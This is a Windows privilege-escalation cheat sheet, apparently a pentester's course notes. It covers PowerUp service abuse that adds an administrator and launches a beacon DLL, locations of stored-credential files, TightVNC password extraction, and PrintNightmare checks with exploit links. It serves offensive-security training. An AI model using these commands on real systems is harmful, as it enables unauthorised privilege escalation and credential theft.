# Machine Privilege Escalation
## PowerUp

```powershell
# Check for vulnerable programs and configs
Invoke-AllChecks

# Exploit vulnerable service permissions (does not require touching disk)
Invoke-ServiceAbuse -Name "AbyssWebServer" -Command "net localgroup Administrators domain\user /add"

# Exploit vulnerable service permissions to trigger stable beacon
Write-ServiceBinary -Name 'AbyssWebServer' -Command 'c:\windows\system32\rundll32 c:\Users\Student355\Downloads\go_dll_rtl_x64.dll,Update' -Path 'C:\WebServer\Abyss'
net stop AbyssWebServer
net start AbyssWebServer
```

## Juicy files

There are lots of files that may contain interesting information. Tools like [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) or collections like [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) may help in identifying juicy files (for privesc or post-exploitation).

Below is a list of some files I have encountered to be of relevance. Check files based on the programs and/or services that are installed on the machine.

> In addition, don’t forget to enumerate any local databases with `sqlcmd` or `Invoke-SqlCmd`!

```powershell
# All user folders
## Limit this command if there are too many files ;)
tree /f /a C:\Users

# Web.config
C:\inetpub\www\*\web.config

# Unattend files
C:\Windows\Panther\Unattend.xml

# RDP config files
C:\ProgramData\Configs\

# Powershell scripts/config files
C:\Program Files\Windows PowerShell\

# PuTTy config
C:\Users\[USERNAME]\AppData\LocalLow\Microsoft\Putty

# FileZilla creds
C:\Users\[USERNAME]\AppData\Roaming\FileZilla\FileZilla.xml

# Jenkins creds (also check out the Windows vault, see above)
C:\Program Files\Jenkins\credentials.xml

# WLAN profiles
C:\ProgramData\Microsoft\Wlansvc\Profiles\*.xml

# TightVNC password (convert to Hex, then decrypt with e.g.: https://github.com/frizb/PasswordDecrypts)
Get-ItemProperty -Path HKLM:\Software\TightVNC\Server -Name "Password" | select -ExpandProperty Password
```


## Privelleges
> Run `whoami /all`  to check if you have any dangerous privs.
### SE Impersonate
#### Exploit Over HTTP/Named Pipes - Generic Potato
Tool: [micahvandeusen/GenericPotato: Impersonating authentication over HTTP and/or named pipes. (github.com)](https://github.com/micahvandeusen/GenericPotato)

Blogpost: [The Power of SeImpersonation | Micah Van Deusen's Blog](https://micahvandeusen.com/the-power-of-seimpersonation/)

## Exploits
### PrintNightmare (CVE-2021-1675)
#### Check Vulnerability exists using powershell
```powershell
# Using Active Directory Module
Get-ADComputer -Filter * | %{$_.dnshostname; Get-Service -ComputerName $_.dnshostname spooler} | fl

# Using WMI
Get-WmiObject -Namespace root\directory\ldap -Class ds_computer | %{$_.ds_cn; Get-Service -ComputerName $_.ds_cn spooler} | fl
```
- [Pure PowerShell implementation of CVE-2021-1675 Print Spooler Local Privilege Escalation (PrintNightmare) (github.com)](https://github.com/calebstewart/CVE-2021-1675)
- [cube0x0/CVE-2021-1675: C# and Impacket implementation of CVE-2021-1675/PrintNightmare (github.com)](https://github.com/cube0x0/CVE-2021-1675)
- [afwu/PrintNightmare (github.com)](https://github.com/afwu/PrintNightmare)


## Tools
[carlospolop/privilege-escalation-awesome-scripts-suite: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors) (github.com)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)